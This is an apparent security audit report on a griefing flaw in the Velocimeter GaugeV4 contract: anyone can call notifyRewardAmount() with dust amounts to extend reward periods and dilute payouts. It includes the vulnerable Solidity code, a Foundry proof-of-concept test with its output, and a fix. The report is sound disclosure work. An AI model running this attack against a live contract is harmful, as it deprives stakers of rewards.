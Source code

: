 Macho Pine Lemur

Medium

# Griefing Attack By Extending The Reward Duration with Dust Token Amounts

## Summary

Extending the reward duration inside the  `Gaugev4` contract is possible using `notifyRewardAmount()` with dust amounts

## Vulnerability Detail

The `notifyRewardAmount()` inside the `Gaugev4` contract notifies the contract of newly received rewards. This updates the local accounting and streams the reward over a preset period.

```Solidity
    function notifyRewardAmount(address token, uint amount) external lock {
        require(token != stake);
        require(amount > 0);
        if (!isReward[token]) {
            require(IVoter(voter).isWhitelisted(token), "rewards tokens must be whitelisted");
            require(rewards.length < MAX_REWARD_TOKENS, "too many rewards tokens");
        }
        if (rewardRate[token] == 0) _writeRewardPerTokenCheckpoint(token, 0, block.timestamp);
        (rewardPerTokenStored[token], lastUpdateTime[token]) = _updateRewardPerToken(token, type(uint).max, true);

        if (block.timestamp >= periodFinish[token]) {
            uint256 balanceBefore = IERC20(token).balanceOf(address(this));
            _safeTransferFrom(token, msg.sender, address(this), amount);
            uint256 balanceAfter = IERC20(token).balanceOf(address(this));
            amount = balanceAfter - balanceBefore;
            rewardRate[token] = amount / DURATION;
        } else {
            uint _remaining = periodFinish[token] - block.timestamp;
            uint _left = _remaining * rewardRate[token];
            require(amount > _left); 
            uint256 balanceBefore = IERC20(token).balanceOf(address(this));
            _safeTransferFrom(token, msg.sender, address(this), amount);
            uint256 balanceAfter = IERC20(token).balanceOf(address(this));
            amount = balanceAfter - balanceBefore;
            rewardRate[token] = (amount + _left) / DURATION;
        }
        require(rewardRate[token] > 0);
        uint balance = IERC20(token).balanceOf(address(this));
        require(rewardRate[token] <= balance / DURATION, "Provided reward too high");
        periodFinish[token] = block.timestamp + DURATION;
        if (!isReward[token]) {
            isReward[token] = true;
            rewards.push(token);
        }

        emit NotifyReward(msg.sender, token, amount);
    }
```

It was observed that this function is callable by anyone regardless of whether the previous reward period has already expired or not. 
Thus, it would be possible to exploit the system by repeatedly calling it with **dust** reward amount to extend an active reward period, and thus dragging out the duration over which the rewards are released.

Since the Velocimeter protocol is intended to be deployed on IOTA EVM or other EVM-compatible chains, where the gas fee tends to be cheap, and maybe on other EVM compatible chains, but not on mainnet, 
the effort required to carry out this attack would be minimal.

By the current design, the period could be extended, causing a dilution of the reward rate. Due to this issue, the impact can cause a loss of rewards, and thus the medium Severity is appropriate.

## Impact

Dilution of reward rate and this will lead to loss of rewards.

## Proof of Concept

Consider adding this test to GaugeV4.t.sol:

```Solidity
    function testNotifyRewardWithDustAmounts() public {
        // Simulate deposits by Alice and Bob
        deal(address(flowDaiPair), address(owner), 1000 ether);
        deal(address(FLOW), address(owner), 1000 ether);
        vm.warp(1720838400); // July 12, 2024, 00:00:00 GMT+0000
        vm.startPrank(address(owner));
        flowDaiPair.approve(address(this), type(uint256).max);
        flowDaiPair.approve(address(gauge), type(uint256).max);
        gauge.depositFor(address(owner), 1000 * 1e18);
        FLOW.transfer(address(gauge), 0.01 ether); // initial balance
        vm.stopPrank();

        // Admin notifies reward amount
        vm.warp(1720847200);
        address attacker = vm.addr(1000);
        deal(address(FLOW), address(attacker), 10 ether);
        vm.startPrank(attacker);
        FLOW.approve(address(this), type(uint256).max);
        FLOW.approve(address(gauge), type(uint256).max);
        gauge.notifyRewardAmount(address(FLOW), 0.0001 ether);
        vm.stopPrank();

        uint256 currentPeriodFinish = gauge.periodFinish(address(FLOW));
        console2.log("Period Finish Time is: ", currentPeriodFinish);
        console2.log("----------------------------------------");

        vm.warp(block.timestamp + 7 days + 1);
        vm.startPrank(attacker);
        FLOW.approve(address(this), type(uint256).max);
        FLOW.approve(address(gauge), type(uint256).max);
        gauge.notifyRewardAmount(address(FLOW), 0.0001 ether);
        vm.stopPrank();

        currentPeriodFinish = gauge.periodFinish(address(FLOW));
        console2.log("Period Finish Time is: ", currentPeriodFinish);
        console2.log("----------------------------------------");

        vm.warp(block.timestamp + 7 days + 1);
        vm.startPrank(attacker);
        FLOW.approve(address(this), type(uint256).max);
        FLOW.approve(address(gauge), type(uint256).max);
        gauge.notifyRewardAmount(address(FLOW), 0.0001 ether);
        vm.stopPrank();

        currentPeriodFinish = gauge.periodFinish(address(FLOW));
        console2.log("Period Finish Time is: ", currentPeriodFinish);
        console2.log("----------------------------------------");

    }
```

output for this test:

```Markdown
[PASS] testNotifyRewardWithDustAmounts() (gas: 1008253)
Logs:
  Period Finish Time is:  1721452000
  ----------------------------------------
  Period Finish Time is:  1722056801
  ----------------------------------------
  Period Finish Time is:  1722661602
  ----------------------------------------

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 13.45ms
```

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L563

## Tool used

Manual Review

## Recommendation

Consider implementing validation to ensure that this function is callable by anyone only if the previous reward period has already expired. 
Otherwise, when there is an active reward period, it may only be called by the designated reward distributor account.